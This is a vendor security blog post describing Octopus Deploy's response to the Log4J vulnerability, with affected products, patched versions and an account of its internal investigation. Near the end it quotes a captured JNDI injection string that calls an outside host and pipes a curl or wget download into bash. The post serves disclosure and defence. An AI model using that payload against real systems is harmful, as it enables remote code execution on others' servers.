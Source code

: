 ```yaml
---
title: Octopus Deploy's response to Log4J
description: Learn how Octopus Deploy responded to the Log4J vulnerability (CVE-2021-44228).
author: kyle.jackson@octopus.com
visibility: public
published: 2021-12-14-1400
metaImage: blogimage-security.png
bannerImage: blogimage-security.png
bannerImageAlt: Octopus on shield to represent security
isFeatured: false
tags: 
  - Product
  - Trust and Security
---
```


On Thursday, December 9, 2021, Octopus Deploy was made aware of a vulnerability in the Log4J logging utility ([CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-44228)). We immediately enacted our Security Incident Response Plan to investigate our use of this utility and its impact on our products and infrastructure.

Fortunately, Octopus Cloud, Octopus Server, and Octopus Tentacle are not affected. However, there are some related products that are impacted and require updates.

In this post, we share the results of our investigation and our recommended next steps for customers.

## JetBrains TeamCity plugin

Version 6.1.7 of the JetBrains TeamCity plugin has been updated to use version 2.15.0 of Log4J. However, all versions of the plugin before 6.1.7 are using version 2.14.1 of Log4J and could be vulnerable to remote code execution.

### What you need to do

Version 6.1.7 of the Octopus Deploy plugin for TeamCity has been published to the marketplace. If you're a TeamCity user, you should be notified of this update through the Web UI and you're strongly encouraged to update.

Follow our [security advisory](https://advisories.octopus.com/adv/2021-12---Octopus-Deploy-TeamCity-Plugin-log4j2-dependency.2306410241.html) for updates.

## Octopus Java SDK

Version 0.0.3 of the Java SDK has been updated to use version 2.15.0 of Log4J. However, all versions of the Java SDK before 0.0.3 are using version 2.14.1 of Log4J and could be vulnerable to remote code execution.

### What you need to do

We recommend that customers using the Octopus Java SDK update their SDK version to 0.0.3.

Follow our [security advisory](https://advisories.octopus.com/adv/2021-13---Octopus-Java-Client-SDK-log4j2-dependency.2306475696.html) for updates.

## Octopus Cloud, Octopus Server, and Octopus Tentacle

Octopus Cloud, Octopus Server, and Octopus Tentacle are not affected by this vulnerability. They’re built with the .NET framework and don’t use any ported versions of Log4J.

## Breakdown of all products

| Product | Vulnerable Log4J version used | Vulnerable product versions | Patched product versions |
| ------- | ----------------------------- | --------------------------- | ------------------------ |
| Azure Devops & TFS Extension | No | N/A | N/A |
| Bamboo Add-on | No | N/A | N/A |
| Java SDK | Yes | <= 0.0.2 | 0.0.3 |
| Jenkins Plugin | No | N/A | N/A |
| Octopus CLI | No | N/A | N/A |
| Octopus Cloud | No | N/A | N/A |
| Octopus Server | No | N/A | N/A |
| Octopus Tentacle | No | N/A | N/A |
| TeamCity Plugin | Yes | <= 6.1.5 | 6.1.7 |

## Was Octopus Deploy compromised? 

Our internal infrastructure runs products that were using a vulnerable version of Log4J. However, we invested a significant amount of time after the initial announcement on Thursday, December 9, and we believe Octopus Deploy was not compromised.

While our engineering teams worked to update our affected products, our Security Operations team analyzed our systems to determine if they'd been exploited. The following sections will go further into our approach.

### Reviewing our internal infrastructure

The vast majority of our internal infrastructure is maintained as Infrastructure as Code (IaC). This allowed us to easily identify potentially vulnerable systems and push updates to those systems with minimal intervention.

When we couldn't determine if a system was vulnerable or not, we used known proof of concepts (PoC) to test if a system was vulnerable. This meant we could better mitigate the particular system.

### Reviewing network traffic

We maintain a lot of network data across our infrastructure, which allows us to identify suspicious network behavior that can result in exploitation of our infrastructure. While reviewing the network data, we identified the following:

1. Suspicious activity - We identified suspicious inbound network traffic to our systems including source IPs. However, we didn't identify any malicious outbound traffic which was reassuring.
1. Identifying targeted systems - While analyzing the network data we identified specific systems that were being aggressively targeted. We put extra controls and mitigations around those systems to reduce the risk of exploitation.

Here is a user agent string that was sent to one of our servers (decoded and redacted):

```
${jndi:ldap://45.155.205.233:12344/Basic/Command/Base64/(curl -s 45.155.205.233:5874/XXX.XXX.XXX.XXX:443||wget -q -O- 45.155.205.233:5874/XXX.XXX.XXX.XXX:443)|bash}
```
### Reviewing endpoints

Using the information from the network data, we reviewed specific endpoints that we knew had been aggressively targeted and confirmed they hadn't been compromised.

By using an EDR solution on our endpoints, we also closely monitored the endpoints for signs of compromise or potential exploitation. This data (along with other data sets) feeds into our SIEM (Security Incident and Event Management) system so we're alerted in near real-time and can respond accordingly.

Using all these approaches to investigate our infrastructure, we found no evidence of a compromise.

## Conclusion

We're continuing to track updates relating to this vulnerability. We'll provide further updates if there's any risk to our customers or products. 

If you have any questions, please reach out via [support@octopus.com](mailto:support@octopus.com).